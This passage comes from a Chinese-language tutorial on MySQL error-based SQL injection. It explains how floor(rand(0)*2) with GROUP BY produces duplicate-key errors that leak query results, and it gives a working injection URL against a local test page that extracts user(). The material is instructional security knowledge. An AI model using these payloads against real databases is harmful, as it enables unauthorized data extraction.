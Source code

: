第5种：

	ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'

第6种：

	ERROR 1062 (23000): Duplicate entry '0' for key 'group_key'

这里很容易地可以知道第5、6种情况是因为计算 ``floor(rand()*2)`` 时，产生了相同的值从而产生了重复的行而报错。

这里为了让每次 ``floor(rand()*2)`` 都产生同样的值，可以设置一个随机种子（一般为0），像这样：``floor(rand(0)*2)``。

然后再次测试，这里为了尽可能多地出现不确定且可重复的值，将查找表换为 ``information_schema.tables``：

{% highlight mysql %}
mysql> select count(*),floor(rand(0)*2) from information_schema.tables group by 2;
{% endhighlight %}

此时就必报错：

	ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'

因此我们可以将需要查询的语句与 ``floor(rand(0)*2)`` 进行字符连接，就可以通过报错来得到信息。

{% highlight mysql %}
mysql> select count(*),concat(user(),floor(rand(0)*2)) from information_schema.tables group by 2;
{% endhighlight %}

得到 ``user()`` 的数据：

	ERROR 1062 (23000): Duplicate entry 'root@localhost:sqli1' for key 'group_key'

### 0x03 报错注入方法

法一：``floor()`` or ``round()`` 函数，group by利用：

	floor：函数只返回整数部分，小数部分舍弃。
	round：函数四舍五入，大于0.5的部分进位，不到则舍弃。

example1：

{% highlight mysql %}
select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a
{% endhighlight %}

本地环境测试：

	http://localhost/sqli/index.php?name='+or+(select+1+from+(select+count(*),concat(user(),floor(rand(0)*2))x+from+information_schema.tables+group+by+x)a)+%23&pass=1

报错注入得到：

	Operation error: Duplicate entry 'root@localhost1' for key 'group_key'

example2：

{% highlight mysql %}
select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2))
{% endhighlight %}

本地环境测试：
